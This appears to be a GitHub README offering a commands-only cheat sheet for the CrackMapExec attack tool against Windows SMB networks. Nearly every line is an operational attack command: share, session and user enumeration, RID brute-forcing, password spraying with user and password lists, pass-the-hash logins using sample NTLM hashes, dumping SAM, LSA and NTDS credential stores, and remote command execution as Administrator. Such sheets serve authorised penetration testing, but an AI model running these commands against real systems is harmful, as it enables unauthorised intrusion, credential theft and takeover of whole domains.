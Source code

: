 # CME_cheatSheet
A CheatSheet to use CrackMapExec, without lots of explications, only commands.

Enumeration
===========
Network
-------
`crackmapexec smb 10.0.0.0/24`

Shares
------
`cme smb 10.0.0.0 -u UserName -p 'PASS' --shares`

Sessions
--------
`crackmapexec 10.0.0.0 -u UserName -p 'PASS' --sessions`

Disk
----
`cme smb 10.0.0.0 -u UserName -p 'PASS' --disks`

Users
-----
Logged
`cme smb 192.168.1.0/24 -u UserName -p 'PASS' --loggedon-users`

Domain
`cme smb 192.168.1.0/24 -u UserName -p 'PASS' --users`

Via RID
`cme smb 192.168.1.0/24 -u UserName -p 'PASS' --rid-brute`

Groups
-------
Domain
`cme smb 10.0.0.0 -u UserName -p 'PASS' --groups`

Local
`cme smb 10.0.0.0 -u UserName -p 'PASS' --local-groups`

Password Policy
===============
`cme smb 10.0.0.0 -u UserName -p 'PASS' --pass-pol`

Check creds
===========
User + pass
-----------
`cme smb 192.168.1.0/24 -u UserName -p 'PASS'`

User + hash
-----------
`#cme smb 192.168.1.0/24 -u UserName -H 'LM:NT'`

`#cme smb 192.168.1.0/24 -u UserName -H 'NTHASH'`

`cme smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'`

`cme smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'`

Null session
------------
`cme smb 192.168.1.0/24 -u '' -p ''`

Lists
------
`cme smb 192.168.1.101 -u user1 user2 user3 -p Summer18`

`cme smb 192.168.1.101 -u user1 -p password1 password2 password3`

`cme smb 192.168.1.101 -u /path/to/users.txt -p Summer18`

`cme smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt`


`#To continue on a session after success`

`cme smb 192.168.1.101 -u /path/to/users.txt -p Summer18 --continue-on-success`

Local
--------
`cme smb 192.168.1.0/24 -u UserName -p 'PASS' --local-auth`

`cme smb 192.168.1.0/24 -u '' -p '' --local-auth`

`cme smb 192.168.1.0/24 -u UserName -H 'LM:NT' --local-auth`

`cme smb 192.168.1.0/24 -u UserName -H 'NTHASH' --local-auth`

`cme smb 192.168.1.0/24 -u localguy -H '13b29964cc2480b4ef454c59562e675c' --local-auth`

`cme smb 192.168.1.0/24 -u localguy -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c' --local-auth`

Get creds
=================
SAM
---
`cme smb 10.0.0.0 -u UserName -p 'PASS' --sam`

LSA
---
`cme smb 10.0.0.0 -u UserName -p 'PASS' --lsa`

NTDS
----
`cme smb 10.0.0.0 -u UserName -p 'PASS' --ntds #Via RPC`

`cme smb 10.0.0.0 -u UserName -p 'PASS' --ntds vss #Via VSS`

Command execution
======================
Commands + Powershell commands
--------------------------------
`crackmapexec 10.0.0.0 -u Administrator -p 'P@ssw0rd' -x whoami`

`crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' #Commande powershell`

